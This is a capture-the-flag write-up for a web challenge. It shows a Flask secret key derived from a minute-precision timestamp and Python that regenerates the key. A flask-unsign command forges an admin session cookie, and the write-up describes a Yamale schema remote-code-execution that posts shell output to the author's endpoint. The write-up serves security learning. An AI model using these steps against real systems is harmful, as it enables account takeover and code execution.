

# validyaml (web, 400 points)

> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

## Files:

- src.zip

```
❯ ls --tree
.
├── app.py
├── config.py
└── src.zip
```

## Solution:

The app provides us with an interface to validate data against a YAML schema:


Well... that's nice I guess. The two things I noticed are:

> Powered by Yamale 3.0.8

> Login

If we look at the login page, we can try to log in as `admin`. (Logging in as other users shows that no such username exists, so we know `admin` exists). However, there's no SQLi or password.

After poking around some more, I looked at `config.py`:

```python
import datetime
import hashlib


class Config(object):
    SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()
    BOOTSTRAP_SERVE_LOCAL = True
    SQLALCHEMY_DATABASE_URI = "sqlite:///app.db"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
```

That's an interesting secret key generation you're using. And quite an insecure one. Let's extract this out:

```python
import datetime
import hashlib
print(hashlib.md5(datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()).hexdigest())
```

We notice here that the timestamp only uses minute precision, meaning that we can regenerate the secret key if we know when the instance was created! Let's spin up a new instance, and run this code exactly then:

```python
>>> print(hashlib.md5(datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()).hexdigest())
4451577a460e5cd82e4013c1b15ef86c
```

Now, with the secret key, we can start signing tokens:

```
❯ flask-unsign --sign -c "{'id': 'admin'}" --secret "4451577a460e5cd82e4013c1b15ef86c"
eyJpZCI6ImFkbWluIn0.ZYC9Yw.wQk75n2rK6BqZi3R2fRIU5Mjkbo
```

Setting the `session` cookie to this value, we now see "Schemas" appear in the top right:


Now, we have access to the schema manager:


Let's take a look at the library that's being used: [Yamale](https://github.com/23andMe/Yamale). The most recent version is `4.0.4`, but the server says it's using `3.0.8`...

If we look at the release history, we find an interesting commit at version `4.0.0`:


Opening up issue [167](https://github.com/23andMe/Yamale/issues/167), we find an RCE exploit:


We have our exploit! Let's create a new schema that uses this:


Now, validating this schema will send a POST request to our endpoint with the result of the shell command! (It's probably easier to just set up a reverse shell, but I didn't feel like it).


We now know the flag is here, so we update the schema...


and validate it...


and get the flag!


